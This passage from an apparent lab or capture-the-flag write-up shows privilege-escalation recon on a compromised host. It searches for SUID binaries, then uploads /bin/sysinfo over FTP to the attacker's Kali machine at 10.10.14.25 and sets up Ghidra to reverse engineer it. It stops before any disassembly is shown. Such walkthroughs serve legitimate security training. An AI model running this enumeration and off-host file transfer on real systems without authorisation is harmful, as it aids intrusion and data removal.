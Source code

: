 After getting access to this user, it is now prossible to look at a unique SUID binary:

```bash
find / -perm -u=s -group users -type f -exec ls -lad {} \; 2>/dev/null
```

![user5](./magic/user5.png)

Transfer the file to Kali over FTP:

```bash
# run on kali
sudo python3 -m pyftpdlib -p 21 -w
# run on target
cd /dev/shm/
cp /bin/sysinfo /dev/shm/sysinfo
ftp 10.10.14.25
put sysinfo
```

Setup [Ghidra](https://ghidra-sre.org/) to reverse engineer the binary:

```bash
wget https://ghidra-sre.org/ghidra_9.2_PUBLIC_20201113.zip
unzip ghidra_9.2_PUBLIC_20201113.zip
sudo apt install openjdk-11-jdk --upgrade
cd ghidra_9.2_PUBLIC/
./ghidraRun
```

After creating a new non-shared project and importing the binary, the `main()` function looks like the following in the disassembly window:
